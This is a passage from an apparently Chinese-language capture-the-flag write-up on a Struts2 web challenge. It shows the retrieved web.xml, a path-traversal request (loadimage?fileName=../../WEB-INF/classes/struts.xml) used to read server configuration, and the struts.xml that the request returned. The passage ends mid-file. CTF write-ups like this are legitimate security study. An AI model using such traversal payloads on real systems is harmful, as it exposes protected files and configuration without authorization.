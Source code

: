 拿到web.xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app id="WebApp_9" version="2.4"
         xmlns="http://java.sun.com/xml/ns/j2ee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://java.sun.com/xml/ns/j2ee http://java.sun.com/xml/ns/j2ee/web-app_2_4.xsd">
    <display-name>Struts Blank</display-name>
    <filter>
        <filter-name>struts2</filter-name>
        <filter-class>org.apache.struts2.dispatcher.ng.filter.StrutsPrepareAndExecuteFilter</filter-class>
    </filter>
    <filter-mapping>
        <filter-name>struts2</filter-name>
        <url-pattern>/*</url-pattern>
    </filter-mapping>
    <welcome-file-list>
        <welcome-file>/ctfpage/index.jsp</welcome-file>
    </welcome-file-list>
    <error-page>
        <error-code>404</error-code>
        <location>/ctfpage/404.html</location>
    </error-page>
</web-app>
```

发现用的是Struct2框架

读一下struct.xml

```
loadimage?fileName=../../WEB-INF/classes/struts.xml
```

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE struts PUBLIC
        "-//Apache Software Foundation//DTD Struts Configuration 2.3//EN"
        "http://struts.apache.org/dtds/struts-2.3.dtd">
<struts>
	<constant name="strutsenableDynamicMethodInvocation" value="false"/>
    <constant name="struts.mapper.alwaysSelectFullNamespace" value="true" />
    <constant name="struts.action.extension" value=","/>
    <package name="front" namespace="/" extends="struts-default">
        <global-exception-mappings>
            <exception-mapping exception="java.lang.Exception" result="error"/>
        </global-exception-mappings>
        <action name="zhuanxvlogin" class="com.cuitctf.action.UserLoginAction" method="execute">
            <result name="error">/ctfpage/login.jsp</result>
            <result name="success">/ctfpage/welcome.jsp</result>
        </action>
        <action name="loadimage" class="com.cuitctf.action.DownloadAction">
            <result name="success" type="stream">
                <param name="contentType">image/jpeg</param>
                <param name="contentDisposition">attachment;filename="bg.jpg"</param>
                <param name="inputName">downloadFile</param>
            </result>
            <result name="suffix_error">/ctfpage/welcome.jsp</result>
        </action>
    </package>
    <package name="back" namespace="/" extends="struts-default">
        <interceptors>
            <interceptor name="oa" class="com.cuitctf.util.UserOAuth"/>
```